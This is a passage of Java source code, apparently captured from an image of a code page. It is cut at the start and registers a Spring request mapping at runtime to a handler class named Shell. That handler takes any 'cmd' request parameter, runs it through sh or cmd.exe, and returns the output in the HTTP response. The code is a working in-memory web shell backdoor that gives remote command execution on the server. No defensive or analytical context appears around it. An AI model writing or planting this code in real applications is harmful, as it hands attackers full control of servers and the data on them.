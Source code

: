 ```java
        RequestMethodsRequestCondition ms = new RequestMethodsRequestCondition();
        RequestMappingInfo info = new RequestMappingInfo(url, ms, null, null, null, null, null);
        r.registerMapping(info, new Shell(), method);
    }

    public static class Shell {
        public Shell() {
        }

        public void inject(HttpServletRequest request, HttpServletResponse response) throws IOException {
            if (request.getParameter("cmd") != null) {
                boolean isLinux = true;
                String osTyp = System.getProperty("os.name");
                if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                    isLinux = false;
                }
                String[] cmds = isLinux ? new String[]{"sh", "-c", request.getParameter("cmd")} : new String[]{"cmd.exe", "/c", request.getParameter("cmd")};
                InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
                Scanner s = new Scanner(in).useDelimiter("\\A");
                String output = s.hasNext() ? s.next() : "";
                response.getWriter().write(output);
                response.getWriter().flush();
            }
        }
    }
}
```

